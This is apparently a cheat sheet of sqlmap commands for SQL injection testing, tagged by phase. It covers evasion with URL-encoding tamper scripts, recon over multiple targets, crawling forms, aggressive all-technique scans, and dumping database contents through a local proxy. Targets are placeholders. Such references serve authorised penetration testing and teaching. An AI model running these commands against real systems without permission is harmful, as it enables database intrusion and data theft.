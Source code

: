 # [OPSEC/Evasion] URL-encode payloads where needed --sqlmap
sqlmap -u "<url>" --tamper="urlencode" --batch


# [Recon] Load multiple target URLs from a file --sqlmap
sqlmap -m <targets_file> --batch

# [Recon] Scope-only testing via regex --sqlmap
sqlmap -u "<url>" --scope="<regex>" --batch


# [Post-Exploitation] Save output to a specific directory --sqlmap
sqlmap -u "<url>" --output-dir="<dir>" --batch

# [Post-Exploitation] Choose dump format (CSV/SQL/TXT) --sqlmap
sqlmap -u "<url>" --dump-format="<CSV|SQL|TXT>" --dump --batch


# [Workflow] Crawl then test discovered parameters --sqlmap
sqlmap -u "<url>" --crawl=<depth> --forms --batch

# [Workflow] Aggressive verify on a single parameter --sqlmap
sqlmap -u "<url>" -p "<param>" --level=5 --risk=3 --technique=BEUSTQ --threads=<n> --batch

# [Workflow] From captured request with tamper + proxy --sqlmap
sqlmap -r <request_file> --tamper="<tamper_chain>" --proxy="http://127.0.0.1:8080" --batch


